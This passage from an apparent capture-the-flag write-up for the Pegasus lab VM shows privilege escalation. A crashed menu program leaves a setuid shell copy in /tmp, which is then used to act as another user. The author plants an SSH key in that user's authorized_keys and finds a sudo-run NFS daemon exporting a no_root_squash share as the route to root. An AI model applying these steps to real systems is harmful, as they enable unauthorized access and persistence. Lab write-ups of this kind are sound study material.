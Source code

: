 ```bash
[2] String replay
[3] String reverse
[4] Exit

Selection:
Enter first number: Enter second number: Error details: ����

                     10
Segmentation fault (core dumped)

# ... and check /tmp
mike@pegasus:~$ ls -lah /tmp/
total 108K
drwxrwxrwt  2 root root 4.0K Dec 23 23:17 .
drwxr-xr-x 22 root root 4.0K Nov 19 02:58 ..
-rwsrwxrwx  1 john mike  98K Dec 23 23:17 tojohn
mike@pegasus:~$
```

We have a new file `tojohn` in `/tmp` :D

```bash
mike@pegasus:~$ /tmp/tojohn
$ id
uid=1001(mike) gid=1001(mike) euid=1000(john) groups=1000(john),1001(mike)
```

## hoofing (rooting) Pegasus
I added the public key of the keypair I generated for Pegasus to `john`'s authorized_keys file and proceeded to SSH in as him.

Quick enumeration showed that `mike` is allowed to start the nfs daemon via `sudo`:

```bash
john@pegasus:~$ sudo -l
Matching Defaults entries for john on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
john@pegasus:~$ sudo nfs
Usage: nfs [start|stop]
john@pegasus:~$ sudo nfs start
 * Exporting directories for NFS kernel daemon...                                                                                                                                 [ OK ]
 * Starting NFS kernel daemon                                                                                                                                                     [ OK ]
john@pegasus:~$
```

I checked out the `/etc/exports` file, and noticed the the `no_root_squash` flag for the `/opt/nfs` export. This is most certainly the way to root Pegasus as nfs will not go and nobody my files :)
